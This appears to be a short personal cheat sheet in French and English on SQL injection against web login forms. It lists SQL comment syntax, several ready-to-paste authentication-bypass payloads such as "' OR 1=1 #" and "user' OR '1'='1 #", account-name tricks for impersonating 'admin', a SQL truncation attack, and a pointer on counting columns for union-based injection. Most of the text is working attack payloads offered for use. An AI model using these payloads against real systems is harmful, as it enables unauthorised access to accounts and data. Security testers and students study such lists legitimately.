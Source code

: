 ```

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```


# Bypass d'Authentification (Ne pas utiliser en prod)


Tester like au lieu de = également.

```sql
' OR 1=1 #
```

```sql
') OR 1=1 #
```

```sql
1 OR 1=1 #
```

```sql
1) OR 1=1 #
```

```sql
user' OR '1'='1 #
```

```sql
user') OR '1'='1 #
```


# Modify password of existing object/user

tester de créer AdMIn ou admin=

## SQL Truncation attack

si limite de caractères pour la chaine de caractère user ou email -> créer admin [a lot of spaces] a



# Identifier le nombre de colonnes #UnionBased 

Si erreur `The used SELECT statements have a different number of columns` -> https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md
